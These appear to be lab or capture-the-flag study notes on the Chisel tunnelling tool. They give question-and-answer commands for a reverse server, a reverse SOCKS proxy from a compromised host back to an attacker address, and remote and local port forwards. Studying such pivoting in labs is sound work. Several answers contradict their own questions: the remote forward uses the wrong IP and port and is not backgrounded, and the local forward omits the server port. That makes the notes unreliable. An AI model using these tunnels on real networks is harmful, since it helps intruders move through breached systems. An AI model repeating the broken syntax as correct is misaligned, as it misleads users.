 - [x] Task:14 [[Chisel]]
Use port 4242 for the listener and **do not** background the process.
	./chisel server -p 4242 --reverse 
What command would you use to connect back to this server with a SOCKS proxy from a compromised host, assuming your own IP is 172.16.0.200 and backgrounding the process?
	./chisel client 172.16.0.200:4242 R:socks &
How would you forward 172.16.0.100:3306 to your own port 33060 using a chisel remote port forward, assuming your own IP is 172.16.0.200 and the listening port is 1337? Background this process.
	./chisel client 172.16.0.100:1337 R:3306:172.16.0.100:3306
If you have a chisel server running on port 4444 of 172.16.0.5, how could you create a local portforward, opening port 8000 locally and linking to 172.16.0.10:80?
	./chisel client 172.16.0.5 8000:172.16.0.10:80
